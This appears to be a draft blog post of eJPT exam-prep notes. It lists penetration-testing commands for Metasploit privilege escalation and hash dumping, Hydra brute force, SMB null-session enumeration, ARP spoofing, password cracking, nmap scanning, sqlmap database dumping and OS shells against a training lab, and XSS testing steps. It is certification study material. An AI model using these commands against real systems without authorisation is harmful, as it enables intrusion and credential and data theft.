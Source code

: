 +++
date = '2024-11-19T21:15:08+01:00'
draft = true
title = 'eJPT Exam Prep'
+++

# Metasploit

Basic Commands

```
search x
use x
info
show options, show advanced options
SET X (e.g. set RHOST 10.10.10.10, set payload x)
```

Meterpreter Commands

```
background
sessions -l
sessions -i 1
sysinfo, ifconfig, route, getuid
getsystem (privesc)
bypassuac
download x /root/
upload x C:\\Windows
shell
use post/windows/gather/hashdump
```

# Networking Attacks

Brute Force with Hydra

```
hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

Windows Shares with null sessions

```
nmblookup -A 10.10.10.10
smbclient -L //10.10.10.10 -N (list shares)
smbclient //10.10.10.10/share -N (mount share)
enum4linux -a 10.10.10.10
```

ARP Spoofing

```
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
```

---
description: Using enum4linux and samrdump.py
---

# Null Sessions

```
enum4linux -n IP
enum4linux -P IP
enum4linux -s /user/share/enum4linux/share-list.txt IP
enum4linux -a IP

cd /usr/share/doc/python-impacket-doc/examples
python samrdump.py IP 

nmap -script=smb-enum-shares IP
nmap -script=smb-enum-users IP
nmap -script=smb-brute IP
```

# Password Bruteforce

First we need to prepare the file for John

```
unshadow passwd shadow > unshadow
```

For hash cracking:

```
john -wordlist /path/to/wordlist -users=users.txt hashfile
```

# Scanning

Best NMAP Scan

```
sudo nmap -T4 -Pn -n -vv -p- -A --open -iL ips.txt
```

Whois

```
whois site.com
```

Ping sweep

```
fping -a -g 10.10.10.0/24 2>/dev/null
nmap -sn 10.10.10.0/24
```

OS Detection

```
nmap -Pn -O 10.10.10.10
```

Nmap Quick Scan

```
nmap -sC -sV 10.10.10.10
```

Nmap Full Scan

```
nmap -sC -sV -p- 10.10.10.10
```

Banner Grabbing

```
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

More Banner Grabbing

```
nmap -sV --script=banner 192.73.96.0/24
```

More Nmap port discovery without ping sweep

```
nmap -p- -Pn -vv -T4 -n IP
```

Port information

```
nmap -sC -sV -p PORT IP
```

Lookup of Nmap scripts

```
locate .nse
```

Vulnerability searching Nmap

```
nmap -sV -sC --script vuln -oN blue.nmap 10.10.126.213
```

Nmap SynScan usefull for nullsessions (enum4linux next)

```
nmap -sS -p 135,139,445 IP.0-255
```

# SQLi

```
sqlmap -u http://10.10.10.10 -p parameter
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
sqlmap -u http://10.10.10.10 --os-shell
sqlmap -u http://10.10.10.10 --dump
--cookie !!
```

Example:

<pre><code><strong>sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title
</strong><strong>sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs
</strong>sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users --columns
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users -C admin,password,email --dump
</code></pre>

This last example is for a GET sql injection. For a POST injection save the post from burpsuite and execute the following command.

```
sqlmap -r request -p title
```

# Subdomain Enumeration

Dirsearch or gobuster are both good options

```
dirsearch.py -u http://10.10.10.10 -e *
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
```

# Vuln Assessment

Rapid7

```
https://www.rapid7.com/db/
```

Exploit-DB

```
https://www.exploit-db.com/
```

# XSS

Reflected XSS = Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload&#x20;

Persistent XSS = Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post

```
1. Find a reflection point
2. Test with <i> tag
3. Test with HTML/JavaScript code (alert('XSS'))
```

